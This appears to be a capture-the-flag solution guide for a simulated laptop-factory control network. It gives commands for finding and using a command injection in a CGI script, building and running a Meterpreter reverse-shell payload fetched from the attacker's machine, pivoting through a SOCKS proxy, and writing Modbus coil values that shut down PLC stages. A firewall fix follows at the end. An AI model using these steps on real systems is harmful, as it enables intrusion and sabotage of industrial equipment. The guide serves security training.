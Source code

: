 # Made in America

_Solution Guide_

## Overview

This is an infinity-style challenge. This solution guide covers the walk-through and is organized by submission question.

The status of questions 2 and 3 can be checked by visiting `https://challenge.us` from a gamespace resource.  It may take up to 60 seconds to receive grading results. 

## Question 1

_View the HMI web console. What is the name of the ninth stage? (E.g., the name of the first stage is Circuit Board Printing)_

Hack your way into the trusted network and view the HMI web console at `http://10.3.3.7:80/scada`.

1. Scan the HMI Viewer with a basic nmap scan.
`nmap 10.5.5.3`

2. Notice TCP/80 is open. Browse to http://10.5.5.3.

3. Feel free to inspect the HTML. There are no important links or references. We must try to discover if there are any in a different manner. Launch dirbuster.

4. Set the Target URL to `http://10.5.5.3:80`, set the File With List Of Dirs/Files to `/usr/share/wordlists/dirbuster/directory-list-1.0.txt`, and click 'Start'.

5. In under a minute, you should be able to click "Results - List View: Dirs: 1 Files:0" as dirbuster received a 403 on the /cgi-bin/ directory.

6. Researching /cgi-bin should indicate that commonly .cgi files reside here. We will use dirbuster again to search for .cgi files. Click 'Stop' and 'Back'. Using the same wordlist as before, change the File Extension to .cgi, set the Dir To Start With to /cgi-bin/, unselect Brute Force Dirs, and click Start.

7. Within 2 minutes, you should see "Results - List View: Dirs: 0 Files: 1." In that tab, you should notice /cgi-bin/remote.cgi.

8. Browse to `http://10.5.5.3/cgi-bin/remote.cgi` and notice that nothing is returned. Researching .cgi files and the name of remote should lead competitors to attempt a remote command injection.

9. Browse to `http://10.5.5.3/cgi-bin/remote.cgi?whoami` and notice that we are returned with the output `nobody`. We are able to perform command injection!

10. We will attempt to have the HMI-viewer download a reverse TCP Meterpreter payload as an .elf and execute the binary. On Kali, ensure you know your Kali's IPv4 address. Run the command `msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=YOURKALIIP LPORT=4444 -f elf > shell.elf`.

11. We will now serve up a webserverVto have the HMI-Viewer download shell.elf. Run the command `sudo python3 -m http.server 80`.

12. Before we execute shell.elf on HMI-Viewer, we must prepare a TCP handler. Launch `msfconsole`, `use exploit/multi/handler`, `set payload linux/x64/meterpreter/reverse_tcp`, `set LPORT 4444`, `set LHOST YOURKALIIP`, and `run`.

13. Competitors are able to have rwx permission on the /tmp directory of the HMI-Viewer. Enter this string in your browser to download shell.elf in the HMI-Viewer's /tmp directory: `http://10.5.5.3/cgi-bin/remote.cgi?wget+YOURKALIIP/shell.elf+-O+/tmp/shell.elf`

14. Next, we must change the permissions to shell.elf. Enter this string in your browser to change shell.elf's permissions: `http://10.5.5.3/cgi-bin/remote.cgi?chmod+777+/tmp/shell.elf`

15. Finally, we must execute shell.elf on HMI-Viewer. Enter this string in your browser to execute it: `http://10.5.5.3/cgi-bin/remote.cgi?/tmp/shell.elf`

16. Your should now see an active Meterpreter session on your handler. If not, please re-check your steps.

17. In Meterpreter, we want to pivot through HMI-Viewer. Background the current session with the command `bg`. Run the following commands in Metasploit to setup a SOCKS4a Proxy through HMI-Viewer: `route add 10.3.3.0/24 1` (as long as your session 1 is still active, otherwise replace with your current Meterpreter session number), `use auxiliary/server/socks_proxy`, `set VERSION 4a`, and `run`.

18. We must set up Firefox to use this proxy. Open Firefox and find the Proxy Connection Settings, select Manual Proxy Configuration, leave HTTP and HTTPS Proxy blank, set SOCKS Host to 127.0.0.1, Port 1080, and ensure SOCKS v4 is selected (NOT SOCKS v5).

19. We can now browse to http://10.3.3.7/scada and login with the credentials given in the lab guide.

20. You should now be able to see the 10 stages of the laptop factory. You will now be able to answer question 1. Congrats!

## Question 2

_What is Token 2 provided from https://challenge.us?_

Turn off the PLC power for Stages 2 through 10. Check the status of this task at `https://challenge.us` from a gamespace resource.

1. To turn off the PLC values, we must first be able to reach the PLC on TCP/502 (modbus). In Metasploit, run the command `route add 10.3.2.0 255.255.255.0 1`.

2. We must install mbpoll to poll and alter PLC values. Open a new terminal window and run the command `sudo apt install mbpoll`. Ensure you enter `y` to install.

3. On your Kali, you must route traffic through this new SOCKS4a proxy. Edit the final line in `/etc/proxychains4.conf` to state socks4 127.0.0.1 1080.

4. We will now use our previous socks4a proxy (with proxychains) to run mbpoll though our established pivot. In a new tab, run the command `proxychains mbpoll -r 1 -c 15 -1 10.3.2.5` to view the number of Completed for each stage (11 - 15 will be blank, of course). The mbpoll man page informs us that Discrete output (coil) data types require `-t 0` to be added as well. The following command will turn off Stage 2 `proxychains mbpoll -r 2 -t 0 10.3.2.5 0`. Replace the 2 with 3 to turn off Stage 3. And so on... You can also use a for loop to quickly turn all nine off.

5. Browse to http://10.3.3.7/scada and verify that Stages 2 through 10 are shut down.

6. Browse to http://challenge.us and allow the grading check to verify you completed the task. It may take up to 60 seconds for the grading check to recognize the task has been completed. Feel free to run the grading check after a minute has passed since you believe you completed the task. Congrats! 
 
## Question 3

_What is Token 3 provided from https://challenge.us?_

Restore all PLC power and ensure no unauthorized devices can manipulate PLC values. Only the HMI Server is authorized to do this! Do not lock the HMI server out. Check the status of this task at `https://challenge.us` from a gamespace resource

1. Before we lock ourselves out, because HMI-Viewer is NOT authorized to reach the PLC, we must set the PLC values back in their original (on) state. The command `proxychains mbpoll -r 2 -t 0 10.3.2.5 1` will turn Stage 2 back on. `proxychains mbpoll -r 3 -t 0 10.3.2.5 1` will turn on Stage 3, and so on and so forth. Turn on Stages 2 through 10.

2. Browse to http://10.3.3.7/scada and verify that Stages 2 through 10 are turned on.

3. SSH into the router with the command `ssh user@10.5.5.1` to ensure only HMI Server can reach the PLC over TCP/502 (modbus). The password for the `user` account was given to you alongside Token 2.

4. In VyOS, run the following commands to ensure only HMI Server can reach the PLC over TCP/502: `conf`, `show firewall`, `del firewall name viewer-to-hmi rule 2`, `set firewall name plc-to-hmi description 'plc-net to hmi'`, `set firewall name plc-to-hmi default-action drop`, `set firewall name plc-to-hmi rule 1 description 'allow hmi to plc'`, `set firewall name plc-to-hmi rule 1 source address 10.3.3.7`, `set firewall name plc-to-hmi rule 1 destination address 10.3.2.5`, `set firewall name plc-to-hmi rule 1 destination port 502`, `set firewall name plc-to-hmi rule 1 protocol tcp`, `set interface ethernet eth1 firewall in name plc-to-hmi`, `set firewall name plc-to-hmi rule 1 action accept`, `commit`, `save`, and `exit`.

5. Browse to http://challenge.us and allow the grading check to verify you completed the task. It may take up to 60 seconds for the grading check to recognize the task has been complete. Feel free to run the grading check after a minute has passed since you believe you completed the task. Congrats! 
